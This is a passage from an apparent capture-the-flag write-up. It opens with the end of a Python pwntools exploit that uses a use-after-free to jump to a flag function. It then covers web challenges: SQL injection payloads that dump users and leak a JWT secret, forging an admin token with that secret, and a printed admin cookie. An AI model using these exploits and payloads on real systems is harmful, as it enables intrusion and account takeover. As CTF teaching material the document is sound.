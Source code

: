 ```py

def main():
    global io

    # good luck pwning :)
    store(0, b"AAAA")
    delete(0)
    rand()
    exe.address = int(show(0)[1]) - exe.symbols.generateRandNum
    edit(0, str(exe.symbols.printFlag).encode())
    rand()

    io.interactive()


if __name__ == "__main__":
    main()
```

# Web

## hackerchat

After registering and logging in, we notice that the endpoint `/dashboard` causes a POST request on the `/search` endpoint with our username as body (json encoded).

So we start playing with it and immediately notice that the character `'` causes the application to crash and return an internal server error.

First, we get all the users with the search term `' OR '1'='1`.
We start playing with the `order by` to get the number of fields returned by the select statement, and with `' OR 1=1 order by 2 -- |` we discover the admin account.
In the notes of the admin account a base64 secret is contained.

We notice that the login is saved via a JWT token in a cookie.
By decoding the jwt in [jwt.io](jwt.io) we verify that it is signed with the admin secret!

So we change the `sub` field value in the jwt, which contains our username, to `admin` and sign it again with the secret found.
Once logged as admin, we find the flag in one of the messages displayed in the dashboard.

## Penguinator

The description of the challenge contains the admin cookie: `/SsLocjiwUwqJW7uuAaD2ufL2ok0RaOZTXokZ77E1rjtIqkQpTKGuvkE0s+8vC3qlpRciGEo4PnE0BuYMOGYtA==`.

First we try to log in with a new fresh account, and we immediately see that the authentication is made with a cookie named `auth`.

We then proceed by setting the admin cookie, but the page returns the error `checkAuth: expired auth bundle`. This tells us that the cookie contains information related to its expiration.
